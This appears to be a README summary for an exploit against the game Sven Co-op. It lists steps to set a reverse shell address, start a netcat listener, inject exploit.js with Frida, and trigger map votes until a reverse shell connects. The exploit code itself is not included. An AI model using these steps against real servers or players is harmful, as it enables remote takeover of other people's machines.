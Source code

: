 ## TL;DR

- Edit the script to change reverse shell address and port
- Spawn a listen netcat
- Start the game
- `frida -l exploit.js -n svencoop.exe`
- Connect to server
- In game console:

```
votemap stadium4
voteyes
```

- Wait for the map to reload / change
- In game console:

```
votemap stadium4
voteyes
```

- Wait for the map to reload / change, the reverse shell will connect
